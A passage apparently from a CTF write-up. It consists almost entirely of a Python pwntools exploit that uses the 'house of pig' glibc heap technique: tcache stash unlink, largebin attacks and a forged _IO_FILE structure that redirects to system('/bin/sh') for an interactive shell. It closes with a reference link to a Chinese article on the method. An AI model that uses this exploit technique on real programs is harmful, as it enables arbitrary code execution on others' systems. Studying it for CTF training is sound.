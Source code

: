 ```python
add_message(0x90,'do stash\n' * (0x90 // 48)) # 1
# stash unlink done
change_rol(2)
edit_message(7,(p64(0) + p64(_IO_list_all_addr - 0x20)) * (0x420//48))
change_rol(3)
delete_message(0)
add_message(0x430,'push\n' * (0x430 // 48)) # 2
# second largebin atk
change_rol(3)
add_message(0x330,'pass\n' * (0x430 // 48)) # 3
add_message(0x430,'pass\n' * (0x430 // 48)) # 4

fake_IO_FILE = ''
fake_IO_FILE += 2 * p64(0)
fake_IO_FILE += p64(1) # _IO_write_base
fake_IO_FILE += p64(0xFFFFFFFFFFFFFFFF) # _IO_write_ptr
fake_IO_FILE += p64(0) # _IO_write_end
fake_IO_FILE += p64(heap_base + 0x13E20) # old_buf, _IO_buf_base
fake_IO_FILE += p64(heap_base + 0x13E20 + 0x18) # calc the memcpy length, _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0xC0 - 0x10,'\x00')
fake_IO_FILE += p32(0) # mode <= 0
fake_IO_FILE += p32(0) + p64(0) * 2 # bypass _unused2
fake_IO_FILE += p64(_IO_str_jump_addr)
payload = fake_IO_FILE + '/bin/sh\x00' + 2 * p64(system_addr)
sh.sendlineafter("01dwang's Gift:\n",payload)
#add_message(0x410,'large_bin\n' * (0x410 // 48)) # 1
sh.sendlineafter("Choice: ",'5')
sh.sendlineafter("user:\n",'')

sh.interactive()
```

## 参考
> [house of pig一个新的堆利用详解](https://www.anquanke.com/post/id/242640#h2-3)
